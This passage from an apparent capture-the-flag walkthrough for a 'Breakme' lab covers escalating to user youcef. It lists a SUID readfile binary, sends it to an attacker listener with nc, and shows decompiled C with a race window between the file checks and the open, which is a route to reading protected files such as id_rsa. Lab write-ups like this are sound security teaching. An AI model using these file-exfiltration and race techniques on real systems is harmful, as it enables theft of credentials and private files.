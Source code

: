## Shell as youcef

### Reverse Engineering the readfile

Checking `/home/youcef`, we find a SUID binary owned by the user that we can run.

```console
john@Breakme:~$ ls -la /home/youcef/
total 52
drwxr-x--- 4 youcef john    4096 Aug  3  2023 .
drwxr-xr-x 5 root   root    4096 Feb  3  2024 ..
lrwxrwxrwx 1 youcef youcef     9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 youcef youcef   220 Aug  1  2023 .bash_logout
-rw-r--r-- 1 youcef youcef  3526 Aug  1  2023 .bashrc
drwxr-xr-x 3 youcef youcef  4096 Aug  1  2023 .local
-rw-r--r-- 1 youcef youcef   807 Aug  1  2023 .profile
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
drwx------ 2 youcef youcef  4096 Aug  5  2023 .ssh
```

Downloading the `readfile` binary using `nc`.

```console
$ nc -lvnp 443 > readfile

john@Breakme:~$ nc 10.11.72.22 443 < /home/youcef/readfile
```

Examining it in `Ghidra` and cleaning it up a bit, we end up with:

```c
if (argc != 2) {
    puts("Usage: ./readfile <FILE>");
    return 1;
} else if (access(argv[1], F_OK)) {  // checks if the file exists
    puts("File Not Found");
    return 1;
} else if (getuid() != 1002) {	// checks the running user is john
    puts("You can't run this program");
    return 1;
} else {
    includes_flag = strstr(argv[1], "flag");     // checks if the supplied argument includes "flag"
    includes_id_rsa = strstr(argv[1], "id_rsa"); // checks if the supplied argument includes "id_rsa"

    lstat(argv[1], &stat_buf);
    is_symlink = (stat_buf.st_mode & S_IFMT) == S_IFLNK;  // checks if the supplied file is a SYMLINK

    can_read = access(argv[1], R_OK);  // checks if the user john can read the supplied file
    
    usleep(0);	// will cause a delay
    
    if (!includes_flag && !includes_id_rsa && can_read != -1 && !is_symlink) // if it does not include "flag" or "id_rsa"
    {                                                                        // is not a symlink and john can read it
        puts("I guess you won!\n");											   
        fd = open(argv[1], O_RDONLY);  // open the file for reading                    
        
        if (fd < 0) {
            assert(fd >= 0 && "Failed to open the file");
        }
        
        do {
```